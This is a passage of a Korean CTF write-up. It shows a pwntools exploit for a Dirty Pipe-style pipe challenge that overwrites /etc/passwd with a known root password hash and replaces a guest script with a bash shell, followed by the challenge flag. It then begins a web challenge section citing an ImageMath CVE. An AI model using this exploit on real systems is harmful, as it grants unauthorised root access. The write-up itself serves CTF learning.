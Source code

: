 문제에서 실행해주는 파일인 /home/guest/info.sh의 내용을 bash 쉘을 띄우는 걸로 바꾸었다.

처음에는 uname 바이너리의 내용을 바꿔서 쉘을 띄우려고 했는데, 삽질을 좀 했다... 이상하게 서버에선 바뀌어도 쉘이 안 띄워지더라? 이유는 모른다 ㅠㅠ.

```python
from pwn import *

def write_pipe(payload):
    p.sendlineafter(b"cmd>", b'2')
    p.sendlineafter(b"size?>\n", str(len(payload)).encode())
    p.sendafter(b"input>", payload)

def read_pipe():
    p.sendlineafter(b"cmd>", b'1')

def read_file(path, size):
    p.sendlineafter(b"cmd>", b'4')
    p.sendlineafter(b"Path>", path)
    p.sendlineafter(b"size?>", str(size).encode())

context.log_level = 'debug'
p = remote('supermario.sstf.site', 34003)
for _ in range(0x10):
    write_pipe(b'A'*0x1000)

for _ in range(0x10):
    read_pipe()

read_file(b'/etc/passwd', 0x4)
write_pipe(b':$6$root$xgJsQ7yaob86QFGQQYOK0UUj.tXqKn0SLwPRqCaLs19pqYr0p1euYYLqIC6Wh2NyiiZ0Y9lXJkClRiZkeB/Q.0:0:0:test:/root:/bin/sh\n') # set root passwd to 'piped'

read_file(b'/home/guest/info.sh', 0x1)
write_pipe(b'!/bin/sh\n/bin/bash\n')

p.interactive()
```

`SCTF{cl3ar_D1rty_p1p3}`


## **Web**
### **Imageium**

옵션을 선택해서 주면, 한 개의 사진에서 색에 변화를 시켜서 보여주는 웹사이트였다.

색이 변하는 사진의 링크를 찾아가서, 플래그 주세요하고 인자를 바꿨더니, 저런 출력을 주더라.

![web](0824-sctf-writeup/02-web1.png)

ImageMath? 구글링 좀 하니 다음 정보를 얻을 수 있었다.

[https://www.cvedetails.com/cve/CVE-2022-22817/](https://www.cvedetails.com/cve/CVE-2022-22817/)
